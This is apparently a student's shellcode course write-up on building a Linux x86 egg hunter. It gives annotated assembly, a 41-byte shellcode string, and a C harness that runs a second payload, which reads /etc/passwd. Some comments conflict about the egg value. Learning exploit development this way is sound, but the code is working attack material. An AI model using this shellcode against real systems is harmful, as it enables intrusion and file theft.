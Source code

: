 # Project 3: Egg hunter

- Study about the Egg Hunter shellcode
- Create a working demo of the Egghunter
- Should be configurable for different payloads




# What is an egg hunter?

A really good blog post by a previous student [H0mbre](https://h0mbre.github.io/SLAE_Egg_Hunter/) does a really great job consolidating information on egg hunters. Of note, he mentions [this paper](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) which defines a few techniques for writing an egg hunter. When searching egg hunters online, you will see a lot of examples using the [access()](https://man7.org/linux/man-pages/man2/access.2.html) method check for validating linux pages of memory that are readable such as [this one](https://rastating.github.io/creating-an-egg-hunter/) by rastating and another on [infosecwriteups](https://infosecwriteups.com/expdev-egghunter-linux-implementation-49154ff4d225) by bigb0ss. Conversely, only a few egg hunters using the `sigcheck()` method to check for valid memory without receiving SIGSEGV signal. That said, I did find one example of it's use by [mmquant](https://mmquant.net/egg-hunters-on-linux/#egghunter_example_sigaction). I mention this to point out a few techniques for finding eggs without throwing exceptions from trying to read memory in inaccessable addresses.

In short, an egg hunter is a two stage payload when you have limited buffer space for your overflow. If you can insert the main payload somewhere in memory, you can use a small egg hunter to search for that main payload and execute it. For more specific details, please refer to the links above. 

For this assignment I will walk through the `access()` egg hunter methodology. I will use the egg `"cd0e" or 0x65643063 (little endian)` as it seems [epi](https://epi052.gitlab.io/notes-to-self/blog/2020-05-18-osce-exam-practice-part-three/#mona-py-egg) has found it to work better than some other eggs such as `"W00T"` and it's a bit funner than random characters.


# Egg Hunter Assembly 

After playing with H0mbre's code as a means of learning, I wanted to change the assembly a bit so it's not a copy paste. That said, the assembly is pretty much the basic method of doing an `access()` egg hunter. I also didn't want to insert a bunch of junk statements just to make the assembly different. Thus, I only made a couple changes.

The first change was to replace the `mov ebx, <egg>` with `mov esi, <egg>`. Thus, I now store my egg in the `esi` regsiter instead of `ebx`. Because of this, I was able to remove the `pushad` and `popad` instructions as a means of saving registers since my egg was not constantly overwritten with the first argument of the access() call. 

Now that the `pushad/popad` instructions are removed, the only register that keeps getting overwritten is `eax` which holds the return value of the access() call. Usuall 0xfffffff2 or 0xfffffffb. To remedy this, I changed the `mov al, 0x21` to a `push 0x21; pop eax`. This will not add null bytes to my assembly and will effectively reset the eax register with the proper value. 

These changes result in a shellcode that is 1 byte less than the original. 

However, this shellcode did not work. After some debugging, the rather obvious answer appeared. The shellcode eventually jumps to the address in `edx` which holds our egg. What I need to do is jump past the egg to the actual instructions to execute. To do this, a simple `add edx, 0x8` is inserted right before `jmp edx` and the shellcode executes flawlessly. 

Since I want the egg to be `c0d3`, I make the egg stored in register `esi` set to `0x33643063` (3d0c)... which is `c0d3 | 0x63306433` in little endian.

The final assembly is as follows:

```x86asm
global _start

section .text
_start:
    mov esi, 0x33643063	; egg ("c0d3"), backwards in little endian = "3d0c" = 0x33643063
    xor ecx, ecx		
    mul ecx             ; set eax and edx to 0

page_forward:		    ; here, we're going to design a function of what to do if we get an EFAULT error
    or dx, 0xfff		; doing a bitwise logical OR against the $dx value
                        ; dx=4095 ; 0x1000 - 1 (4095) ; Page sizes in Linux x86 = 4096

address_check:		    ; here we're going to design a function to check the next 8 bytes of mem
    inc edx			    ; gets $edx to a nice multiple of 4096
    lea ebx, [edx+4]	; load [edx+4] to check if this fresh page is readable by us
    push 0x21		; access()
    pop eax
    int 0x80

    cmp al, 0xf2		; does the low-end of $eax equal 0xf2? did we get an EFAULT? 
    jz page_forward		; if we got an EFAULT, this page is unreadable, time to go to the next page!

    cmp [edx], esi		; is what is stored at the address of $edx our egg (0x65643063) ?
    jnz address_check	; if it's not, let's advance into the page and see if we can't find that pesky egg
    
    cmp [edx+4], esi	; we found our egg once, let's see if it's also in $edx + 4
    jnz address_check	; we found it once but not twice, have to keep looking
    
    add edx, 0x8        ; jump past our egg to our actual shellcode
    jmp edx			    ; we found it twice! go to edx (where our egg is) +8 and execute the code there! 
```


Shellcode (Length: 41 bytes):

```c
"\xbe\x63\x30\x64\x33\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\x39\x32\x75\xef\x39\x72\x04\x75\xea\x83\xc2\x08\xff\xe2"
```

# Testing

To test, the shellcode can be executed with dynamic payloads using this egg_hunter_test.c program:

```c
#include <sys/mman.h>
#include <stdio.h>
#include <string.h>

unsigned char hunter[] = "\xbe\x63\x30\x64\x33\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\x39\x32\x75\xef\x39\x72\x04\x75\xea\x83\xc2\x08\xff\xe2";
unsigned char code[] = "\x63\x30\x64\x33\x63\x30\x64\x33\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\xcd\x80\x93\x91\xb0\x03\x66\xba\x01\x10\x4a\xcd\x80\x92\x29\xc0\xb0\x04\xb3\x01\xcd\x80\xb0\x01\xcd\x80";
	

int main(){
    printf("Hunter length: %d\n", strlen(hunter));
    printf("Shellcode length: %d\n", strlen(code));


    int r =  mprotect((void *)((int)hunter & ~4095),  4096, PROT_READ | PROT_WRITE|PROT_EXEC);
    printf("mprotect: %d\n",r);
    int (*ret)() = (int(*)())hunter;
    return ret();
    // return 1;
}
```

Of note is that the `code` variable can be any payload you want, just ensure it is prepended with the egg twice `\x63\x30\x64\x33\x63\x30\x64\x33` (c0d3c0d3).

Compile and run using 

```bash
gcc -fno-stack-protector -z execstack -m32 egg_hunter_test.c -o egg_hunter 
./egg_hunter
```
